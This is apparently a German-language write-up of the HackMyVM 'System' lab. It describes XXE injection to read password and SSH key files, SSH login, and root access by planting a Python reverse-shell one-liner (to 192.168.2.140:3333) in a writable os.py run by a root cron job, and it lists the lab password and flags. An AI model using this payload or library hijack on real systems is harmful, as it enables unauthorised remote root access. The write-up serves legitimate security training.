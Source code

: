 # System - HackMyVM (Easy)
 
![System.png](System.png)

## Übersicht

*   **VM:** System
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=System)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 3. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/System_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "System"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), auf dem eine Datei `magic.php` gefunden wurde. Diese Datei war anfällig für XML External Entity (XXE) Injection. Durch Ausnutzung der XXE-Schwachstelle konnte `/etc/passwd` und anschließend eine Datei `/usr/local/etc/mypass.txt` (aus einem `.viminfo`-Leak) ausgelesen werden, die das Passwort `h4ck3rd4v!d` für den Benutzer `david` enthielt. Alternativ wurde auch der private SSH-Schlüssel von `david` via XXE extrahiert. Der Login als `david` erfolgte per SSH mit dem gefundenen Passwort. Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Die Privilegieneskalation zu Root erfolgte durch Python Library Hijacking: Ein Cron-Job führte regelmäßig als `root` das Skript `/opt/suid.py` aus. Durch Modifizieren der Standard-Python-Bibliothek `/usr/lib/python3.9/os.py` (auf die `david` Schreibrechte hatte) mit einem Reverse-Shell-Payload wurde beim nächsten Ausführen des Cron-Jobs eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `vi` (oder anderer Texteditor)
*   `gobuster`
*   `dirsearch`
*   `wget`
*   `curl`
*   `nikto`
*   `Burp Suite` (oder manuelles POST für XXE)
*   `chmod`
*   `ssh2john`
*   `ssh`
*   `python` (für `http.server` und Payload)
*   `pspy64`
*   `find`
*   `nc` (netcat)
*   `cat`
*   `ls`
*   `grep`
*   `id`
*   `cd`
*   Standard Linux-Befehle

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "System" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.113`).
    *   Eintrag von `system.hmv` in lokale `/etc/hosts`.
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH - OpenSSH 8.4p1) und 80 (HTTP - nginx 1.18.0 "HackMyVM Panel").
    *   `gobuster` und `dirsearch` auf Port 80 fanden `index.html`, `/js/`, `cover.png` und die entscheidende Datei `magic.php`.

2.  **Initial Access (XXE & SSH):**
    *   Eine POST-Anfrage an `http://system.hmv/magic.php` mit einer präparierten XML-Payload (DOCTYPE-Deklaration mit externer Entität) offenbarte eine XML External Entity (XXE)-Schwachstelle.
    *   Ausnutzung der XXE zum Lesen von `/etc/passwd`, was den Benutzer `david` identifizierte.
    *   Weitere XXE-Ausnutzung zum Lesen von `/home/david/.viminfo`, was den Pfad `/usr/local/etc/mypass.txt` enthielt.
    *   XXE-Ausnutzung zum Lesen von `/usr/local/etc/mypass.txt` ergab das Passwort `h4ck3rd4v!d`.
    *   Alternativ wurde via XXE auch der private SSH-Schlüssel von `david` (`/home/david/.ssh/id_rsa`) ausgelesen (dieser war nicht passwortgeschützt).
    *   Erfolgreicher SSH-Login als `david` mit dem Passwort `h4ck3rd4v!d` (`ssh david@system.hmv`).
    *   User-Flag `79f3964a3a0f1a050761017111efffe0` in `/home/david/user.txt` gelesen.

3.  **Privilege Escalation (Python Library Hijacking via Cronjob):**
    *   Hochladen und Ausführen von `pspy64` als `david` enthüllte einen Cron-Job, der regelmäßig (minütlich) als `root` das Skript `/usr/bin/python3.9 /opt/suid.py` ausführt.
    *   `find / -name os.py 2>/dev/null` identifizierte den Pfad zur Standard-Python-Bibliothek `/usr/lib/python3.9/os.py`.
    *   Der Benutzer `david` hatte Schreibrechte auf `/usr/lib/python3.9/os.py`.
    *   Einfügen eines Python-Reverse-Shell-Payloads in die Datei `/usr/lib/python3.9/os.py`:
        ```python
        import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.140",3333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
        ```
    *   Starten eines `nc`-Listeners auf dem Angreifer-System (Port 3333).
    *   Als der Cron-Job das nächste Mal `/opt/suid.py` (und damit das modifizierte `os`-Modul) ausführte, wurde eine Reverse Shell als `root` auf dem Listener des Angreifers etabliert.
    *   Root-Flag `3aa26937ecfcc6f2ba466c14c89b92c4` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **XML External Entity (XXE) Injection:** Die Datei `magic.php` war anfällig für XXE, was das Auslesen beliebiger Dateien (z.B. `/etc/passwd`, SSH-Schlüssel, Passwortdateien) ermöglichte.
*   **Passwörter in Klartextdateien:** Das Passwort für `david` war in `/usr/local/etc/mypass.txt` gespeichert.
*   **Unsichere Dateiberechtigungen (Python Standard Library):** Die Standard-Python-Bibliotheksdatei `os.py` war für einen normalen Benutzer (`david`) beschreibbar.
*   **Python Library Hijacking:** Ein als `root` laufender Cron-Job importierte das `os`-Modul. Durch Modifizieren der beschreibbaren `os.py`-Datei konnte beliebiger Code als `root` ausgeführt werden.
*   **Informationslecks:** `.viminfo` enthielt Pfad zu einer Passwortdatei.

## Flags

*   **User Flag (`/home/david/user.txt`):** `79f3964a3a0f1a050761017111efffe0`
*   **Root Flag (`/root/root.txt`):** `3aa26937ecfcc6f2ba466c14c89b92c4`

## Tags

`HackMyVM`, `System`, `Easy`, `XXE`, `SSH`, `Password Cracking`, `Python Library Hijacking`, `Cronjob Exploitation`, `Linux`, `Web`, `Privilege Escalation`
